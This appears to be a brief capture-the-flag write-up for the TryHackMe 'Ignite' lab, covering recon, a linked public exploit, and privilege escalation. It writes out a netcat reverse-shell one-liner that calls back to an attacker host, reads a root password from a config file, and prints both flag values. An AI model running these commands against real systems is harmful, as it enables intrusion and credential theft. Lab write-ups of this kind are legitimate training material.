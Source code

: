 ## Challenge Name: THM_Ignite



Challenge Description:
A new start-up has a few issues with their web server.

Artifact Files:


### Approach
## Recon
Using `rustscan`  to scan port on target machine. Those open ports are 80.

![img](CTF_img/THM_Ignite_1.png)
I use ` dirsearch <IP>' to find hidden url of the website have path /assets, robots.txt,

![img](CTF_img/THM_Ignite_2.png) and we see the version of that app using expoit in link below

[exploit_link](https://www.exploit-db.com/exploits/50477)

Acces the webshell and using reverse shell escalation using this `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ip> 1234 >/tmp/f` to the web shell

**1 What is the user.txt flag? **

We simply  just `cat /home/www-data/flag.txt` and get the flag1 `6470e394cbf6dab6a91682cc8585059b`
![img](CTF_img/THM_Ignite_3.png)

**2 What is the root.txt flag? **
Acces fuel/application/config/database.php in webshell folder base on the main page of that web to get root password is mememe
![img](CTF_img/THM_Ignite_4.png)
We have to upgrade reverse shell using `python -c 'import pty;pty.spawn("/bin/bash")'; #spawn a python psuedo-shell` to change user and use `cat /root/root.txt` to get the flag `b9bbcb33e11b80be759c4e844862482d `
![img](CTF_img/THM_Ignite_5.png)
